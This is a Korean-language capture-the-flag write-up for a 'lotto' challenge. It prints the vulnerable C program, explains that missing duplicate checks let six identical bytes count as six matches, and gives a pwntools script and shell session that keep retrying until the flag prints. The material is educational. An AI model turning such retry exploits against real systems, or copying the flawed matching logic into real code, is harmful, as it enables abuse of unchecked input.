

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

소스는 다음과 같다.

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

  int i;
  printf("Submit your 6 lotto bytes : ");
  fflush(stdout);

  int r;
  r = read(0, submit, 6);

  printf("Lotto Start!\n");
  //sleep(1);

  // generate lotto numbers
  int fd = open("/dev/urandom", O_RDONLY);
  if(fd==-1){
        printf("error. tell admin\n");
        exit(-1);
  }
  unsigned char lotto[6];
  if(read(fd, lotto, 6) != 6){
        printf("error2. tell admin\n");
        exit(-1);
  }
  for(i=0; i<6; i++){
        lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
  }
  close(fd);

  // calculate lotto score
  int match = 0, j = 0;
  for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
  }

  // win!
  if(match == 6){
        system("/bin/cat flag");
  }
  else{
        printf("bad luck...\n");
  }

}

void help(){
  printf("- nLotto Rule -\n");
  printf("nlotto is consisted with 6 random natural numbers less than 46\n");
  printf("your goal is to match lotto numbers as many as you can\n");
  printf("if you win lottery for *1st place*, you will get reward\n");
  printf("for more details, follow the link below\n");
  printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
  printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

  // menu
  unsigned int menu;

  while(1){

        printf("- Select Menu -\n");
        printf("1. Play Lotto\n");
        printf("2. Help\n");
        printf("3. Exit\n");

        scanf("%d", &menu);

        switch(menu){
                case 1:
                        play();
                        break;
                case 2:
                        help();
                        break;
                case 3:
                        printf("bye\n");
                        return 0;
                default:
                        printf("invalid menu\n");
                        break;
        }
  }
  return 0;
}
```

사용자가 입력하는 부분은 submit배열에 들어가고 입력 값 검증 행위를 하지않는다.

또한, /dev/urandom에서 6바이트를 가져와서 연산한 값과 사용자가 입력한 값에서 중복된 1개의 값만으로 match가 6이 될 수 있다.

```cpp
for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
  }
```

/tmp디렉토리로 이동 후 폴더를 만들어서 다음과 같이 python 스크립트를 작성하여 실행시키면 FLAG를 획득할 수 있다.

```
lotto@pwnable:~$ cd /tmp
lotto@pwnable:/tmp$ mkdir ljw-lotto
lotto@pwnable:/tmp$ cd ljw-lotto
lotto@pwnable:/tmp/ljw-lotto$ ln -s /home/lotto/flag flag
lotto@pwnable:/tmp/ljw-lotto$ vi lotto.py
```

```python
from pwn import *

#context.log_level = 'debug'
p = process("/home/lotto/lotto")
while True:
        p.recvuntil('Exit\n')
        p.sendline('1')
        p.recvuntil('Submit your 6 lotto bytes : ')
        p.sendline(b'\x01'*6)
        p.recvuntil('Lotto Start!\n')
        data = p.recvline()
        if 'bad' not in data:
                print(data)
                break
lotto@pwnable:/tmp/ljw-lotto$ python lotto.py
[+] Starting local process '/home/lotto/lotto': pid 369403
sorry mom... I FORGOT to check duplicate numbers... :(

[*] Stopped process '/home/lotto/lotto' (pid 369403)
```


# **FLAG**

**sorry mom... I FORGOT to check duplicate numbers... :(**